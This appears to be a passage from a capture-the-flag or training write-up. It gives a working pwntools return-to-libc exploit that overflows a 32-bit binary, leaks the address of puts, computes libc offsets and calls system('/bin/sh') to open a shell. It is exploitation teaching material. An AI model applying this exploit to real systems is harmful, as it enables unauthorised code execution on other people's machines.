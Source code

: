 ```python
padding = b"a"*148

# payload 1: leak the address of puts in libc
payload_1 = padding
payload_1 += p32(puts_plt)
payload_1 += p32(vuln_addr)
payload_1 += p32(puts_got)

p.sendline(payload_1)

# puts will print '\n' so we need to recvline() after recv the 4 bytes address of puts
p.recvline()

# get address of puts in libc
leak = p.recv(4)

# turn it into int32
puts_real = u32(leak)

# calculate the base address of libc
base_addr = puts_real - puts_offset

# calculte the address of system() and "/bin/sh"
sys_real = base_addr + sys_offset
binsh_real = base_addr + binsh_offset

# payload2 gets the shell
payload_2 = padding
payload_2 += p32(sys_real)
payload_2 += b"aaaa"
payload_2 += p32(binsh_real)

p.recvuntil("Rop basic!!!")
p.sendline(payload_2)

p.interactive()
```

## Result

![img](/bi0s/ROP_Dynamic/bi0s/assets/result.png)
